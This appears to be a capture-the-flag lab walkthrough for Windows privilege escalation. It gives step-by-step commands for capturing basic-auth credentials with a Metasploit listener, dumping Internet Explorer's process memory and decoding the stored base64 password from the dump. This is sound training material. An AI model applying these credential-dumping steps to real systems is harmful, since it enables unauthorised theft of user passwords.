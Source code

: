 ~~~
$ echo "cGFzc3dvcmQxMjM=" | base64 -d
password123
~~~

# [Task 13] Password Mining Escalation - Memory

## #13.0 - Instructions

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use auxiliary/server/capture/http_basic`
3. In Metasploit (msf > prompt) type: `set uripath x`
4. In Metasploit (msf > prompt) type: `run`

Windows VM

1. Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2. Open command prompt and type: `taskmgr`
3. In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.
4. Copy the generated file, "iexplore.DMP", to the Kali VM.

Kali VM

1. Place ‘iexplore.DMP’ on the desktop.
2. Open command prompt and type: `strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"`
3. Select the Copy the Base64 encoded string.
4. In command prompt type: `echo -ne [Base64 String] | base64 -d`
5. Notice the credentials in the output.

## #13.1 - Click 'Completed' once you have successfully found all the passwords

!["process-dump.png"](files/process-dump.png)
